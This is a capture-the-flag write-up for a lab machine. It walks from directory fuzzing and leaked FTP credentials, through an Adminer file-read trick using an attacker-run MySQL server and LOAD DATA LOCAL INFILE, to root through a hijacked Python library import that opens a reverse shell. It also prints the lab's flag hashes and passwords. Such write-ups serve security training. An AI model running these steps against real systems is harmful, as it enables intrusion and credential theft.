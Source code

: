 # Summary
- User: directory enumeration and Adminer local file inclusion exploit
- Root: shadowing Python library function imported into a script ran by root

# Details
### User: 9f56c40369e0a554c3a966cab924df5d
- Nmap scan reveals ports 21, 22, and 80 are open
- ffuf scan reveals `robots.txt` which blocks `admin-dir` and mentions "contacts and creds" 
- `contacts.txt` and `credentials.txt` can be retrieved from `admin-dir` endpoint
    - `/admin-dir` endpoint gives 403 response code but individual files can still be fuzzed for and accessed
- use `username: ftpuser` and `password: %n?4Wz}R$tTF7` from `credentials.txt` to login to FTP server and retrieve `dump.sql` and `html.tar.gz`
    - must set FTP to `passive` mode from `binary` in order to properly retrieve files
- opening `html.tar.gz` reveals presence of a `utility-scripts` directory
- `/utility-scripts` endpoint serves an `adminer.php` file
    - filename not contained in main fuzzing list and had to be inferred from machine name
- use Adminer exploit to connect to local MySQL database and then import remote files
    - https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
    - http://itman.in/en/mysql-add-user-for-remote-access/
    - remote access to MySQL
        - change `bind-address` in `/etc/mysql/mariadb.conf.d/50-server.cnf` from `127.0.0.1` to `0.0.0.0`
        - `sudo systemctl start mysql`
        - `MariaDB [mysql]> create user 'kali'@'localhost' identified by '< password >';`
        - `MariaDB [mysql]> create user 'kali'@'%' identified by '< password >';`
        - `MariaDB [mysql]> grant all on *.* to 'kali'@'localhost';`
        - `MariaDB [mysql]> grant all on *.* to 'kali'@'%';`
        - `MariaDB [mysql]> flush privileges;`
        - ensure `iptables` allows access on port 3306
    - enter external IP address (e.g., 10.10.14.41), username, password and DB name into Adminer admin panel and connect
    - use `Create Table` functionality to create a table named `dump` with a text column
    - use `SQL Command` functionality to execute `LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE <table_name> FIELDS TERMINATED BY " "` in order to pull in `index.php` which contains waldo's password
        - previously identified as containing a password for `waldo` after opening `html.tar.gz` obtained from FTP
    - retrieve waldo's password `&<h5b~yK3F#{PaPB&dA}{H>` and login with SSH to retrieve user flag

### Root: 26dc2e3368ba1bc3dc205611ba4306c6
- running `sudo -l` and supplying waldo's password reveals the user can run the script located at `/opt/scripts/admin_tasks.sh` and set environment variables (e.g., `PYTHONHOME`)
- task 6 in `admin_tasks.sh` calls `backup.py` in the same directory which imports the `make_archive` function from the `shutil` library
- create a dummy `shutil.py` file containing a function named `make_archive` in `/tmp/gato` that executes a reverse shell command to shadow the function called in `backup.py`
- trigger the shadowed function as root with `sudo PYTHONPATH=/tmp/gato /opt/scripts/admin_tasks.sh` to obtain root shell
